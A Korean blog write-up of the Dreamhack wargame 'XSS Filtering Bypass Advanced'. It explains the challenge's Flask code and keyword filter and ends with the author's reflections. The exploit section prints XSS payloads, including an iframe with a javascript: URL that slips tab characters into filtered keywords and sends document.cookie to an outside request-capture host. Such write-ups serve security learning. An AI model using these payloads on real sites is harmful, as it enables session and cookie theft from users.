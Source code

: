 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass 혼자실습"
categories: web-hacking-advanced
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


- [x] xss filtering bypass advanced

# Web Hacking [혼자실습] xss filtering bypass advanced

## 웹 구조

1. /flag 에서 공격 스크립트 입력
2. check_xss 함수에서 url 생성 (memo 페이지는 render_template을 사용하기에, vuln으로 접근하도록)
3. read_url 함수에서 url 전달여부 판단
4. /vuln 접근 시 실행되는 vuln 함수에서 xss_filter 진행

### flag

GET 메소드 시, 스크립트를 입력할 수 있는 flag.html로 연결

POST 메소드 시, 입력된 값을 파라미터로 하여, check_xss 함수로 전달 (cookie에 flag 정보가 들어감)

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

### check_xss 함수

vuln으로 가는 url을 생성하여 read_url 함수로 전달

\* urllib 라이브러리 [추가 정보](https://blog.naver.com/shwotjd14/221676402782)

|종류|설명|
|:---|:---|
|urllib.request|url을 열거나, 요청 전달|
|urllib.error| urllib.request 모듈에서 발생하는 예외 클래스 포함|
|urllib.parse|url 문자열의 구문 분석과 관련된 작업 수행|
|urllib.robotparser|robot.txt 파일을 구문 분석|

urllib.parse.quote() : 아스키코드 형식이 아닌 글자를 URL 인코딩한다

아래 코드에서는, string으로 전달된 param 변수를 urllib.parse.quote() 을 통해 URL 인코딩하여 기존 주소에 붙여 전달한다.

```python
def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

### xss_filter 함수

해당 함수의 반복문을 보면, 필터링 문자열이 제거될 때까지 검사를 진행하지는 않으나, 필터링 문자열이 존재할 경우 "filtered!!!" 를 반환한다. 따라서, 앞선 함께실습에서 진행한 locatioonn 같은, 키워드 안에 키워드를 삽입하는 우회방법은 사용할 수 없다. 


```python
def xss_filter(text):
    _filter = ["script", "on", "javascript"]
    for f in _filter:
        if f in text.lower():
            return "filtered!!!"

    advanced_filter = ["window", "self", "this", "document", "location", "(", ")", "&#"]
    for f in advanced_filter:
        if f in text.lower():
            return "filtered!!!"

    return text
```

**필터링 되는 문자**

|n차 필터링|해당 문자열|
|:---|:---|
|1차|script, on, javascript|
|2차|window, self, this, document, location, (, ), &#|

기본적으로 전달해야하는 스크립트 내용

```javascript
<script>document.location.href = "/memo?memo=" + document.cookie;</script>
```

## 익스플로잇

- 부모의 cookie를 탈취해야함

- 태그는 % 를 사용해 인코딩할 시 태그의 기능을 잃음

- img, iframe 과 같이 js를 실행 가능한 다른 태그를 사용해야함. script 태그 사용 불가


다음과 같이 작성해보았으나 작동 X : data:// url은 origin이 null이므로 sop에 의해 상위 프레임 탐색이 차단되어, 쿠키 탈취가 되지 않음

```html
<iframe srcdoc="data:base64;,PHNjcmlwdD5kb2N1bWVudC5sb2NhdGlvbi5ocmVmID0gIi9tZW1vP21lbW89IiArIGRvY3VtZW50LmNvb2tpZTs8L3NjcmlwdD4="></iframe>
```

check_xss로 전달 -> url 형태로 인코딩하여 read_url 전달 -> 필터링 진행(소문자로 바꾸어서)

아래 코드를 전달해야하는데 어떻게 필터링을 해야할까

```html
<iframe src="javascript:location.href='https://pgzkthr.request.dreamhack.games/memo?memo='+document.cookie">
```

인코딩을 진행하면 아래와 같이 나옴 -> 일단 javascript, location, document에 대한 필터링 필요

```
%3ciframe+src%3d%22javascript%3alocation.href%3d%27https%3a%2f%2fpgzkthr.request.dreamhack.games%2fmemo%3fmemo%3d%27%2bdocument.cookie%22%3e
```


인코딩 했을 때 값이 나와야하므로 아래 코드를 디코딩하여 전달

```html
<iframe src="javascrip%09t:locatio%09n.href=%27https://pgzkthr.request.dreamhack.games/memo?memo=%27%2bdocumen%09t.cookie">
```

<img src="/images/wargame/24.png">

## 문제

과정에 상세히 기재되지는 않았지만 정말 모든 필터링을 다 시도해봤는데 인코딩되었을 때 필터링 형태가 반환되어야한다는 것을 생각하지 못함. 내가 넣은 아스키, 또는 유니코드 필터링들을 미리 디코딩해서 넣고, 인코딩 시 해당 형태가 반환되도록 하여 그 후 디코딩에서 해석되도록 만들었어야 했다. 이 방법을 미리 생각했다면 기존에 시도했던 많은 형태들도 작동됐을 것 같다는 생각이 들어 아쉬움이 남는다. 해당 문자들을 디코딩하여 넣어보긴 했으나, 디코더를 사용한 것이 아니라 수기로 디코딩을 진행했었는데 무언가 빠졌다거나 하는 문제가 발생했던 것 같다

**결론 : 진작에 디코더 쓸 걸**
